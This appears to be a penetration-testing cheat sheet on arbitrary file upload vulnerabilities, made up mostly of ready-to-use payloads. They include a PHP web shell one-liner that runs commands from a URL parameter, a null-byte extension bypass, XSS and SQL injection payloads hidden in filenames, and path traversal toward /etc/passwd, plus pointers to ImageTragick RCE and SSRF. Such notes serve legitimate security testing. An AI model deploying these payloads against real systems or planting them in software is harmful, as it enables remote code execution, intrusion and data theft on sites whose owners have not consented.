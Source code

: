 ### Vulnerabilities via Arbitrary File Upload


### Bypasses

#### Null Byte Bypass
```
image.php%00.png
```

#### Content-Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

### Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### SSRF
```
Change 'type=file' to 'type=url'
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
